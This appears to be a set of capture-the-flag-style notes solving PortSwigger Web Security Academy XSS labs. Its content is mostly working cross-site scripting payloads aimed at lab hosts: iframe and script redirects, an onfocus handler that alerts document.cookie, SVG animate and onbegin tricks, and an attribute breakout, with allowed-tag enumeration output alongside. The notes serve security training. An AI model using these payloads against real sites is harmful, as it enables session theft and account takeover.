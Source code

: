 # XSS Labs

## Stored XSS into HTML context with nothing encoded

* Payload
```html
<iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'> 
```

## Reflected XSS into HTML context with all tags blocked except custom ones
* Payload
```html
<script>location = 'https://ac081f4d1fda91bec1dd414e00810097.web-security-academy.net/?search=%3Cbigb0ss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script> 
```

## Reflected XSS with event handlers and href attributes blocked

* Allowed tags
```
[INFO] Allowed tag: a
[INFO] Allowed tag: text
[INFO] Allowed tag: animate
[INFO] Allowed tag: image
[INFO] Allowed tag: svg
[INFO] Allowed tag: title
```

* Payload
```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click Me</text></a>
```

## Reflected XSS with some SVG markup allowed

* Allowed tags
```
[INFO] Allowed event: text
[INFO] Allowed event: animatetransform
[INFO] Allowed event: image
[INFO] Allowed event: svg
[INFO] Allowed event: title
```

* Allowed events
```
[INFO] Allowed event: onbegin
```

* Payload
```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

## Reflected XSS into attribute with angle brackets HTML-encoded

* Payload
```html
" autofocus onfocus=alert(1) x="
```

